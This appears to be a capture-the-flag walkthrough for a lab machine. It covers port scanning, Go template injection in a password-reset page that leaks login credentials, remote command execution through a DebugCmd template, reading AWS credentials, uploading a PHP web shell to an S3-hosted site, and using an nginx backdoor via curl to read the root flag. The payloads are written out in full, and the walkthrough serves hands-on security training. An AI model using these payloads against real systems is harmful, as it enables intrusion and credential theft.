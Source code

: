 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 nginx
4566 nginx
8080 nginx
```
Checking out the webservers port `80` is a normal site `4566` is 403 forebedden and `8080` is a login page running a gobuster on the `80` host only found a `/css` running the scan on `4566` found nothing running scan on the `8080` now
```
/forgot/
```
This website on port `8080` is coded in golang so it might be vulnerable to ssti and the password reset reflects what we put in it back to us if we intercept the request and use this payload 
```
{{len `test`}}
```
this will return 4 if it works and it does we can get this to send us the login data with this payload 
```
{{ . }}
```
and we got the creds for a user `ippsec@hacking.esports:ippsSecretPassword` we log in and it just gives us the code looking at the code there is a `DebugCmd` that calls system commands we can use this to get access to the machine if we do `{{ .DebugCmd "id" }}` we get back `root` so now we have RCE doing some enumeration on the docker its using `aws` and if we do `aws s3 ls` we get the website and we can write to this site `echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' /tmp/shell` and then we can upload it `aws s3 cp /tmp/shell s3://website/shell.php` and now we can hit this from the main site on port `80` we can also get the creds and do this from are own machine if we go to `/root/.aws/credientals` so now getting a reverse shell out side of the docker looking around the host we found a `50-backdoor.conf` in the nginx modules and we can google this and get a github repo `NginxExecute` and this backdoor is listening on port `8000` and to interact with it the parameter is `ippsec.run[id]` will return the id we can get this from running strings on the binary and now we can run commands as root `curl 127.0.0.1:8000/?ippsec.run[id]` returns root and now we can get the flag to get the root flag `curl 127.0.0.1:8000/?ippsec.run[cat%20%2froot%2froot.txt]` 
 
